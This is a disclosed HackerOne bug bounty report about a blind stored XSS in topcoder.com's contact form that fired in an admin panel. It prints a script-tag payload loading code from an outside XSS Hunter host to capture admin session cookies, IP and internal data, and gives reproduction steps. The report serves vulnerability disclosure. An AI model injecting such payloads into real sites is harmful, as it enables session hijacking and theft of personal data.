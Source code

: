 # Blind stored XSS due to insecure contact form at https://www.topcoder.com leads to leakage of session token and other PII

## Report Details
- **Report ID**: 878145
- **URL**: https://hackerone.com/reports/878145
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-19T15:40:22.675Z
- **Disclosed**: 2020-08-07T17:17:07.746Z

## Reporter
- **Username**: mase289
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: lab45

## Vulnerability Information
## Summary:
I have discovered a blind stored cross site scripting vulnerability due to an insecure Contact form available here https://www.topcoder.com/contact-us/ This form does not properly sanitize user input allowing for the insertion and submission of dangerous characters such as angle brackets.  I was able to submit a blind xss payload through the form which was triggered in backend /admin panel.

## Steps To Reproduce:
[add details for how we can reproduce the issue]

1.	Browse to the page at https://www.topcoder.com/contact-us/ and fill out the contact form submitting your blind XSS payload in First name , Last name, Company and description field. 
2.	Submit the form and have and admin access the information.
3.	This will trigger XSS in the admin panel and a notification to the XSS hunter service with details of the event. 

## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

  * [attachment / reference]

F834746  XSS hunter screenshot revealing mail chimp information

█████ Dom.html you can search through this for my XSS hunter payload `"><script src=https://xvt.xss.ht></script>`

F834748 Full XSS hunter email report

## Impact

An attacker is able to access critical information from the admin panel. The XSS reveals the administrator’s IP address, backend application service, titles of mail chimp customer and internal subscription emails, admin session cookies.
An attacker can exploit the above cookies to access the admin panel.

## Attachments
- xsshunter_screenshot.png
- _XSSHunter__XSS_Payload_Fired_On_https___topcoder--mc4sf.visualforce.com_servlet_servlet.Integration_lid_0661K000008g1R7_ic_1_linkToken_VmpFPSxNakF5TUMwd05TMHlNRlF5TXpvME9Eb3dNQzR3T1RWYSxlTjhEX19URWN1QkduZFUzVnU1.eml
